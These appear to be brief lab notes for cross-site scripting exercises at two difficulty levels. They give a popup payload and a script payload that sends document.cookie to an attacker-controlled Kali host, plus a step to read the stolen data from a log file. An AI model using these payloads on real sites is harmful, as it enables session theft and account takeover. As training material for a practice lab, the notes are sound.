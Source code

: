 LOW

In the `Name` field:
```
<img src="https://nonexisting.url" onerror=window.open("https://www.owasp.org","xss",'height=500,width=500');>
```


MEDIUM

[[7._XSS#steal php]]

In the `Name` field:
```
<SCRIPT>window.location.replace("http://$KALI/steal.php?q="+document.cookie);</SCRIPT>
```

Now just check `/var/www/html/log.txt` on kali.